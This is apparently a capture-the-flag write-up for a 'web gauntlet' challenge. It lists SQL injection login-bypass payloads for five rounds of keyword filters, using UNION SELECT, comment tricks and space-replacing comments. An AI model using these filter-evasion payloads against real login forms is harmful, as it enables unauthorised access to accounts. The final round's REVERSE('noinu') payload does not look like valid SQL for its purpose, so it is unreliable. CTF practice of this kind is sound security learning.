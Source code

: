 # web gauntlet

## round 1

Round 1 filters `or`

```1' union select * from users where username='admin'-- ```

## round 2

Round 2 filters `or and like = --`
to fix this we justneed to change the comment and the way we filter down to only admin.  /* works as a comment and i guessed that admin was the first alphabetically and filtered with a less than.  
```1' union select * from users where username<'bdmin'/* ```

## round 3

Round 3 filters `or and = like > < --`

this one blocks spaces so we gotta replace the spaces with comments


```1'/*union*/union/*select*/select/*test*/*/*from*/from/*users*/users/*limit*/limit/*1*/1/*```

## round 4

Round 4 filters `or and = like > < -- admin`

easy fix, just don't log in to admin explicitly and let the limit 1 take care of us

```1'/*union*/union/*select*/select/*test*/*/*from*/from/*users*/users/*limit*/limit/*1*/1/*```

## round 5

Round 5 filters `or and = like > < -- admin union`

````

```1'/*idk*/REVERSE('noinu')/*select*/select/*test*/*/*from*/from/*users*/users/*limit*/limit/*1*/1/*```
